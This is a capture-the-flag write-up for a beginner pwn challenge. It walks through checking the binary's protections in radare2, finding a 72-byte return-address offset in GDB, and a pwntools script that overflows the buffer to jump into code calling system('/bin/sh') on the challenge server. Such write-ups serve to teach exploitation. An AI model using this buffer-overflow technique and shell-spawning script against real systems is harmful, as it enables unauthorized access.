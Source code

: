 # Pwn sanity check

This was a relatively easy challenge.

After opening `./pwn_sanity_check` in Radare2, I ran the `i` command to check the security of the binary:
```
[0x0040078c]> i
fd       3
file     pwn_sanity_check
size     0x21b8
humansz  8.4K
mode     r-x
format   elf64
iorw     false
block    0x100
type     EXEC (Executable file)
arch     x86
baddr    0x400000
binsz    6769
bintype  elf
bits     64
canary   false
class    ELF64
compiler GCC: (Ubuntu 7.5.0-3ubuntu1~18.04) 7.5.0
crypto   false
endian   little
havecode true
intrp    /lib64/ld-linux-x86-64.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  AMD x86-64 architecture
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      false
relocs   true
relro    partial
rpath    NONE
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```
This binary isn't PIE and doesn't have a stack canary, so it's a prime target for a simple buffer overflow.
After seeking to `main`, I can see that `main` calls `vuln`, which is vulnerable to a buffer overflow.
There are also the symbols `win` and `shell`. `win` contains some complicated-looking challenge:
```
│ 0x004006a5      488d3d8c0100.  lea rdi, str.you_made_it_to_win_land__no_free_handouts_this_time__try_harder    ; 0x4008│
│ 0x004006ac      e89ffeffff     call sym.imp.puts           ;[1] ; int puts(const char *s)                              │
│ 0x004006b1      817dfcefbead.  cmp dword [var_4h], 0xdeadbeef                                                          │
│ 0x004006b8      7537           jne 0x4006f1                                                                            │
│ 0x004006ba      488d3db70100.  lea rdi, str.one_down__one_to_go_    ; 0x400878 ; "one down, one to go!" ; const char *s│
│ 0x004006c1      e88afeffff     call sym.imp.puts           ;[1] ; int puts(const char *s)                              │
│ 0x004006c6      817df8dec037.  cmp dword [var_8h], 0x1337c0de                                                          │
│ 0x004006cd      7522           jne 0x4006f1                                                                            │
│ 0x004006cf      488d3db70100.  lea rdi, str.2_2_bro_good_job    ; 0x40088d ; "2/2 bro good job" ; const char *s        │
│ 0x004006d6      e875feffff     call sym.imp.puts           ;[1] ; int puts(const char *s)                              │
│ 0x004006db      488d3dbc0100.  lea rdi, str._bin_sh        ; 0x40089e ; "/bin/sh" ; const char *string                 │
│ 0x004006e2      e879feffff     call sym.imp.system         ;[2] ; int system(const char *string)                       │
│ 0x004006e7      bf00000000     mov edi, 0                  ; int status                                                │
│ 0x004006ec      e8affeffff     call sym.imp.exit           ;[3] ; void exit(int status)                                |
```
However, we don't have to return to the start of a function. Thus, I set my target at `0x004006db`, where it actually runs a shell.

So, now we have to find the out the offset of the return address from the buffer in the stack.
This can be done easily in PwnDBG (or any GDB plugin that prints context).
First, open up the binary and set a breakpoint at `vuln`. Then run it with varying offset sizes until your return address is overwritten:
```
break vuln
run < <(perl -e 'print "\x41"x72 . "ABCDEFGH")
```
After stepping through the execution of `vuln` with the `nexti` command, I found that the return address is 72 bytes from the start of the buffer.
Thus, I can replace `ABCDEFGH` with any address I want to solve this challenge. Lets choose `0x004006db` from before.

Thus, I made a simple Python script to pop me a shell on the remote server:
```python
from pwn import *

payload = b"\x41"*72 + p64(0x004006db)
r = remote('dctf-chall-pwn-sanity-check.westeurope.azurecontainer.io', 7480)

r.recvuntil('joke\n')
r.sendline(payload)
r.interactive()
```

The flag was in "flag.txt" on the server.
